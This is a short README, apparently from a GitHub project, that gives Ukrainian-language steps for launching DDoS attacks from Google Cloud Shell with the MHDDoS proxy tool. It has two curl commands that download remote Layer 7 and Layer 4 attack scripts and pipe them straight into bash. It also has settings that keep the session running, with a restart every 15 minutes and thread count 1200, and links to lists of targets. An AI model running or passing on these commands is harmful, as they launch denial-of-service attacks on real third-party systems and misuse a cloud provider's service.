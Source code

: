 # DDoS whith Google Cloud Shell 
# MHDDoS_proxy
# 
Making script for durable cloudshell session

# ТЕСТ
Команди для запуску атаки

по Layer7:
curl -l https://raw.githubusercontent.com/Operation-Stop-russia/Gcloudshell_ddos/main/Test_L7m.sh | bash

по Layer4:
curl -l https://raw.githubusercontent.com/Operation-Stop-russia/Gcloudshell_ddos/main/Test_L4.sh | bash

У GCloudShell https://shell.cloud.google.com/?fromcloudshell=true&show=terminal вмикаємо Ephemeral Mode (ставимо - "Завжди")

Налаштовано: перезапуск скрипту кожні 15 хв, метод атаки додається зі списку цілей, параметр -t вказано 1200

Списки з цілями

https://raw.githubusercontent.com/Operation-Stop-russia/targets_lists/main/L7m.lst
https://raw.githubusercontent.com/Operation-Stop-russia/targets_lists/main/L4




IT ARMY of Ukraine
